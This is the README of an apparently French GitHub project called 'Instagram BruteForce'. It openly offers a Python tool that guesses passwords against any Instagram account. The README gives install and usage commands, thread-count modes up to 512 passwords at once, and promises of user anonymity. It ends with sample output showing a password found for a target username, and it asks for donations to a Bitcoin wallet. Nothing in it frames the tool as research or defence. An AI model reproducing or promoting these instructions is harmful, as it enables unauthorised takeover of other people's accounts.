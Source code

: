 # Instagram BruteForce

[![Donate](https://img.shields.io/badge/PayPal-donate-orange)](https://www.paypal.me/AlexxModder)

Ce programme va forcer brutalement n’importe quel compte Instagram que vous l’envoyez à sa façon.
Il suffit de lui donner une cible, une liste de mots de passe et un mode, puis appuyez sur entrez et oubliez-le.
Pas besoin de s’inquiéter de l’anonymat lors de l’utilisation de ce programme, sa plus haute priorité est votre anonymat, 
il n’attaque que lorsque votre identité est cachée.


### Avis
Je ne maintiendrais plus ce projet.

### Soutenez-moi
> Portefeuille Bitcoin: 3JdbcHdKEV2xTmxoiwTd9xYxfQ7jBnGuB3 >> PayPal: https://www.paypal.me/AlexxModder

### Exigences
- Python v3.x.x
- ~~Kali Linux 2.0~~
- ~~Tor~~
### Installer des dépendances

```
pip3 install -r requirements.txt
```

### Aide
```
usage: instagram.py [-h] [-m MODE] username wordlist

optional arguments:
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots
```
### Utilisation

```
python3 instagram.py <nom> <wordlist> -m <mode>
```
### Bots (Threads)
- 4 bots: 64 mots de passe à la fois
- 8 bots: 128 mots de passe à la fois
- 16 bots: 256 mots de passe à la fois
- 32 bots: 512 mots de passe à la fois

### Modes
- 0: 32 bots
- 1: 16 bots
- 2: 8 bots
- 3: 4 bots
Mode chill
Ce mode n’utilise que 4 bots, soit 64 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 3
```
### Mode modéré 1

Ce mode utilise 8 bots, soit 128 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 2
```

### Mode modéré 2

Ce mode utilise 16 bots, soit 256 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 1
```

### Mode sauvage

Ce mode utilise 32 bots, soit 512 mots de passe à la fois.

```
C:\Users\kali\Desktop\Instagram>python3 instagram.py AlexxLy password.lst -m 0
```

### Si vous ne spécifiez pas un mode, alors le mode est défini à 2

### ENGLISH                      ||### FRANCAIS

### Run                          ||### Courrir
                                 ||
```                              ||```                              
[-] Wordlist: password.lst       ||[-] Liste de Mots de passe: password.lst
[-] Username: AlexxLy            ||[-] Nom d'utilisateur: AlexxLy
[-] Password: 272                ||[-] Mots de passe: 272
[-] Complete: 34.80%             ||[-] Completer: 34.80%
[-] Attempts: 212                ||[-] Essayer: 212
[-] Browsers: 240                ||[-] Browsers: 240
[-] Exists: True                 ||[-] Existe: OUI
```                              ||```                              
                                 ||
### Stop                         ||### Arrete
                                 ||
```                              ||```                              
[-] Wordlist: password.lst       ||[-] Liste de Mots de passe: password.lst
[-] Username: AlexxLy            ||[-] Nom d'utilisateur: AlexxLy
[-] Password: Alexx1212          ||[-] Mots de passe: Alexx1212
[-] Complete: 86.69%             ||[-] Completer: 86.69%
[-] Attempts: 345                ||[-] Essayer: 345
[-] Browsers: 192                ||[-] Browsers: 192
[-] Exists: True                 ||[-] Existe: OUI
                                 ||
[!] Password Found               ||[!] Mots de passe Trouver
[+] Username: AlexxLy            ||[+] Nom d'utilisateur: AlexxLy
[+] Password: Alexx1212          ||[+] Mots de passe: Alexx1212
